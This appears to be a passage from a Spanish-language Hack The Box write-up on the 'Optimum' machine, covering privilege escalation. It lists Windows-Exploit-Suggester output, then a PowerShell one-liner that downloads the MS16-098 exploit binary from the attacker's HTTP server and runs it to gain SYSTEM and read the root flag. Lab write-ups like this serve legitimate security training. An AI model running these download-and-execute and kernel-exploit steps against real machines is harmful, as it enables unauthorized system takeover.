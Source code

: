Copiamos el output anterior y lo guardamos en un archivo `.txt` y ejecutamos el siguiente comando de la herramienta `Windows-Exploit-Suggester`

```console
┌─[root@parrot]─[/opt/Windows-Exploit-Suggester]
└──╼ #./windows-exploit-suggester.py --database 2020-06-29-mssb.xlsx --systeminfo systeminfo.txt 
[*] initiating...
[*] database file detected as xls or xlsx based on extension
[*] reading from the systeminfo input file
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s)
[*] there are now 246 remaining vulns
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*] https://www.exploit-db.com/exploits/41020 -- Microsoft Windows 8.1 (x64) - 'RGNOBJ' Integer Overflow (MS16-098)
[*]
```

De las vulnerabilidades que más nos llama la atención es la `MS16-098` donde los controladores en modo Kernel en Microsoft Windows Server 2012 R2, permite a los usuarios locales obtener privilegios. Para más información leer este [boletín](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-098#vulnerability-information) oficial de Microsoft.

En `Exploit-db` encontramos el siguiente [exploit](https://www.exploit-db.com/exploits/41020), así que vamos a descargar este archivo y al igual que hicimos con el exploit de `HFS` vamos a crear un servidor web con Python y transferirlo a la máquina de la víctima, en este caso, usando `Powershell`.

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #ls
all-ports  exploit.py  nc.exe  systeminfo.txt  targeted  41020.exe

┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Optimum]
└──╼ #python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:80/) ...
```

```bash
C:\Users\kostas\Desktop>powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.15:8080/41020.exe', 'c:\Users\kostas\Desktop\41020.exe')"
```

Finalmente, ejecutamos el exploit y ya seremos administradores, así que vamos a buscar la flag de root.

```bash
C:\Users\kostas\Desktop> 41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.                                                    
C:\Users\kostas\Desktop>whoami
whoami
nt authority\system                                                                                          
C:\Users\kostas\Desktop>type C:\Users\Administrator\Desktop\root.txt
type root.txt                                  
5949b3.............................
```
